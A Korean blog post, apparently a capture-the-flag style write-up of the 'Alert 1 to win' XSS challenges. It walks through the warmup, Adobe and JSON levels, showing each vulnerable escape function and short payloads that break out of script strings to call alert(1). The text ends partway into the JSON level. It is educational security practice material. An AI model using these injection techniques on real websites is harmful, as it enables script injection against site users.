 ```yaml
---
layout: post
title: "XSS Challenges writeup - Alert 1 to win (Part 1)"
description: XSS Challenges writeup - Alert 1 to win (Part 1)
headline: XSS Challenges writeup - Alert 1 to win (Part 1)
modified: 2017-04-16
category: web xss
comments: true
featured: true
---
```



[Alert 1 to win](https://alf.nu/)을 풀어 봤습니다.
Alert 1 to win은 unsafe한 javascript에 입력값을 조작하여 alert 1을 띄우는 문제로 짧은 exploit code가 높은 점수를 얻는 구조입니다.

문제의 순서는 언제든지 바뀔 수 있습니다.

# warmup
```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

입력 값이 별도의 필터링 없이 그대로 출력되는 구조 입니다. 간단히 더블쿼터(")만 escape하면 됩니다.


처음으로 작성했던 Payload는 `");alert(1)//`(13자리) 입니다. 하지만 payload 길이가 짧을수록 점수 배점이 높은 구조입니다.

다시 작성한 payload는 `"+alert(1)+"`(12자리)입니다.

# Adobe
```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
warmup 문제에 더블쿼터를(")를 역슬러쉬 더블쿼터(\")으로 치환하는 구문이 추가된 문제입니다.

역슬래시에 다시 역슬래시를 추가해서 문자열로 바꾸면 됩니다.

첫번째 작성했던 페이로드를 살짝 수정했습니다. payload `\");alert(1)//`(14자리)

# JSON
```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
입력값을 JSON.stringify를 통해 치환합니다. JSON.stringify는 JSON에서 사용되는 더블쿼터(")에 역슬래시를 자동으로 추가합니다. 물론 더블쿼터를 탈출할 수 있는 역슬래시 또한 자동으로 역슬래시가 붙습니다.
단점으로는 화살괄호(<>)는 치환하지 못합니다.
